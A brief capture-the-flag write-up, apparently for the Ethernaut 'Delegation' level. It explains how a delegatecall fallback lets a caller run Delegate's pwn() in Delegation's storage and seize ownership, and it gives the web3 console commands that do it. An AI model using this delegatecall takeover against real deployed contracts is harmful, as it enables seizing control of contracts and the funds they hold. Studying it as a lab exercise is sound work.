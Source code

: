 Two contracts. Both store owner address in storage of the contract.

Contract ```Delegation{}``` uses ```delegatecall(msg.data)``` which calls Contract ```Delegate{}``` with its own storage. 

```Delegate{}``` has function ```pwn()``` which changes owner to ```msg.sender```.

I create a transaction to trigger ```Delegation{}``` fallback, with ```msg.data``` containing a call to ```pwn()```. 
Since the call is via the ```Delegation{}``` contract and storage, it will gain us access to ownership of ```Delegation{}```.

Check current ownership. 
```await contract.owner()```

Get the hash of ```pwn()``` function.
```let pwnHash = web3.utils.sha3("pwn()");```

Invoke the fallback function with msg data of the pwn hash.
```contract.sendTransaction({data: pwnHash})```

Check new ownership.
```await contract.owner()```

Should be the same as my address found under ```player``` variable.